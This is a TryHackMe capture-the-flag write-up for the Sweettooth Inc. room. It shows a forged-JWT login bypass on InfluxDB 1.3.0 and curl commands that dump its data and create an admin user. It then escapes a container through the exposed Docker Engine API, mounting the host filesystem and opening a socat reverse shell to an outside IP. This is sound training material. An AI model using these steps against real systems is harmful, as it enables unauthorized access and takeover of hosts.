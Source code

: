 ```yaml
---
title: "TryHackMe - Sweettooth Inc. (non port forward method)"
date: 2021-08-02T21:31:08+05:30
draft: false
---
```



![](/images/img-tryhackme-sweettooth-inc-non-port-forward-method-0.png)

Hello everyone, this one is going to be the write-up for the [Sweettooth Inc. room](https://tryhackme.com/room/sweettoothinc) on [TryHackMe](https://tryhackme.com/). 
In this room, we’ll have to first enumerate a vulnerable database where we have to craft a JWT token to login into it and there we get the SSH credentials to the system. Once we get the foothold on the system, we see that that it’s a docker container with an exposed Docker Engine API. We can use it to break out of that docker container to get access to the host machine.

# Nmap

Starting off with the nmap scan:
```bash
# Nmap 7.91 scan initiated Fri Jul 23 18:32:34 2021 as: nmap -sT -p- -sVC -oN services.nmap --open -n -v -T4 10.10.219.28  
Nmap scan report for 10.10.219.28  
Host is up (0.19s latency).  
Not shown: 59487 closed ports, 6044 filtered ports  
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit  
PORT      STATE SERVICE VERSION  
111/tcp   open  rpcbind 2-4 (RPC #100000)  
| rpcinfo:   
|   program version    port/proto  service  
|   100000  2,3,4        111/tcp   rpcbind  
|   100000  2,3,4        111/udp   rpcbind  
|   100000  3,4          111/tcp6  rpcbind  
|   100000  3,4          111/udp6  rpcbind  
|   100024  1          34421/udp6  status  
|   100024  1          40752/tcp   status  
|   100024  1          43744/udp   status  
|_  100024  1          45271/tcp6  status  
2222/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)  
| ssh-hostkey:   
|   1024 b0:ce:c9:21:65:89:94:52:76:48:ce:d8:c8:fc:d4:ec (DSA)  
|   2048 7e:86:88:fe:42:4e:94:48:0a:aa:da:ab:34:61:3c:6e (RSA)  
|   256 04:1c:82:f6:a6:74:53:c9:c4:6f:25:37:4c:bf:8b:a8 (ECDSA)  
|_  256 49:4b:dc:e6:04:07:b6:d5:ab:c0:b0:a3:42:8e:87:b5 (ED25519)  
8086/tcp  open  http    InfluxDB http admin 1.3.0  
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).  
40752/tcp open  status  1 (RPC #100024)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Points to take note on:

-   Port 2222: SSH (OpenSSH 6.7p1)
-   Port 8086: InfluxDB http admin 1.3.0
-   Device is probably a Linux system

With a quick google search, we get to know that there has been a password bypass vulnerability in InfluxDB: [https://github.com/influxdata/influxdb/issues/12927](https://github.com/influxdata/influxdb/issues/12927)

Here is an article that confirms that our InfluxDB version of 1.3.0 is indeed vulnerable and also explains how to exploit it: [https://www.komodosec.com/post/when-all-else-fails-find-a-0-day](https://www.komodosec.com/post/when-all-else-fails-find-a-0-day)

To exploit this, we first need a valid username. This can be done rather easily by simply visiting the `/debug/requests` endpoint on your web browser. The URL would look similar to this: `http://10.10.219.28:8086/debug/requests`

![](/images/img-tryhackme-sweettooth-inc-non-port-forward-method-1.png)
Found database username

Database username: o5yY6yya

Now, to craft the JWT token, we need to set up the following parameters:

-   username: o5yY6yya
-   valid expiry date
-   empty secret key

It should look something like this:

![](/images/img-tryhackme-sweettooth-inc-non-port-forward-method-2.png)
Using [jwt.io](https://jwt.io/) to create our token

The InfluxDB API documentation explains it pretty well on how to use it:

-   [https://docs.influxdata.com/influxdb/v1.8/guides/query_data/](https://docs.influxdata.com/influxdb/v1.8/guides/query_data/)
-   [https://docs.influxdata.com/influxdb/v1.8/administration/authentication_and_authorization/](https://docs.influxdata.com/influxdb/v1.8/administration/authentication_and_authorization/)

Here are a few queries to help with the tasks:

-   To show the databases: (I’m using [jq](https://github.com/stedolan/jq) to parse the json for better readability)
```bash
curl -G 'http://10.10.219.28:8086/query?' --data-urlencode 'q=SHOW DATABASES;'  -H 'Authorization: Bearer <jwt token here>' | jq
```
-   To show the tables in the selected database (Tables are called ‘series’ in InfluxDB):
```bash
curl -G 'http://10.10.219.28:8086/query?' --data-urlencode "db=mixer" --data-urlencode 'q=SHOW SERIES'  -H 'Authorization: Bearer <jwt token here>' | jq
```
-   To show the contents of the series:
```bash
curl -G 'http://10.10.219.28:8086/query?' --data-urlencode "db=tanks" --data-urlencode 'q=SELECT * FROM water_tank'  -H 'Authorization: Bearer <jwt token here>' | jq
```
You can also create a privileged account and then instead of going the curl way, simply use the [influx CLI](https://docs.influxdata.com/influxdb/v1.8/tools/shell/) tool. To create a privileged account, we need to specify the username and password with the ‘ALL PRIVILEGES’ privilege set.
```bash
curl -X POST '[http://10.10.219.28:8086/query?'](http://10.10.219.28:8086/query?%27=) --data-urlencode "q=CREATE USER xplo1t with PASSWORD 'xplo1t' with ALL PRIVILEGES"  -H 'Authorization: Bearer <jwt token here>'
```
Inside the database, we can get the SSH credentials:

![](/images/img-tryhackme-sweettooth-inc-non-port-forward-method-3.png)
Only thing left to do now is login :)

SSH log in with these credentials. With some enumeration, we see that we are in a docker container. In the root directory, there are two suspicious files which may be of our interest:

-   entrypoint.sh
-   initializeandquery.sh

After looking through the files, the ‘initializeandquery.sh’ file gives a hint that the port 8080 is being used for querying about the docker containers.

![](/images/img-tryhackme-sweettooth-inc-non-port-forward-method-4.png)

Check the bottom part of initializeandquery.sh

If you haven’t used this before, the documentation should help you out: [https://docs.docker.com/engine/api/v1.38/](https://docs.docker.com/engine/api/v1.38/).

Let’s see what containers are present:
```bash
curl -X GET http://localhost:8080/containers/json
```
From the output of this command, we get the image name as ‘sweettoothinc’.

Let’s try adding our own image file.  
I made a json image (named it as `image.json`) with the following configuration:
```json
{  
 "Image":"sweettoothinc",  
 "cmd":["/bin/bash"],  
 "Binds": [  
  "/:/mnt:rw"  
 ]  
}
```
When we start this container, `/bin/bash` run and the whole filesystem of the host system will be mounted onto the `/mnt` directory. So we’ll have access to all the files of the host machine with full read/write access.

Uploading the container:
```bash
curl -X POST -H "Content-Type: application/json" -d @image.json 'http://localhost:8080/containers/create'

Output:  
{"Id":"2b5918d16a56fb462b32bcfd72924d925d9d5b31e7cee75af226432d2e54d7c9","Warnings":null}
```
Note the container ID of our new container

> Container ID: 2b5918d16a56fb462b32bcfd72924d925d9d5b31e7cee75af226432d2e54d7c9

Lets try starting it:
```bash
curl -X POST  'http://localhost:8080/containers/2b5918d16a56fb462b32bcfd72924d925d9d5b31e7cee75af226432d2e54d7c9/start'

Output: No output. Means it started successfully
```
Since we now have the whole filesystem of the host machine in this container, we own them too. To get a reverse shell, we need to create an exec instance. It allows us to execute commands inside running containers.

With the container ID we got earlier, create a new exec instance with a socat reverse shell:
```bash
curl -i -s -X POST -H "Content-Type: application/json" --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["socat" ,"TCP:10.17.10.220:1337", "EXEC:sh"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' 'http://localhost:8080/containers/2b5918d16a56fb462b32bcfd72924d925d9d5b31e7cee75af226432d2e54d7c9/exec'

Output:
{"Id":"da3d7220e76cf0c291311f35773c3e12283ff6929e21bc81b0567cd3eb43ce48"}
```
> Exec ID: da3d7220e76cf0c291311f35773c3e12283ff6929e21bc81b0567cd3eb43ce48

Set up a listener on your local machine on the same 1337 port. And start the exec instance:

```bash
curl -i -s -X POST -H 'Content-Type: application/json' --data-binary '{"Detach": false,"Tty": false}' 'http://localhost:8080/exec/da3d7220e76cf0c291311f35773c3e12283ff6929e21bc81b0567cd3eb43ce48/start'
```
On the listener, there should be a shell waiting for you

![](/images/img-tryhackme-sweettooth-inc-non-port-forward-method-5.png)

Here is an article if you want to read more: [https://dejandayoff.com/the-danger-of-exposing-docker.sock/](https://dejandayoff.com/the-danger-of-exposing-docker.sock/). 
Thanks for reading this far. See you next time.
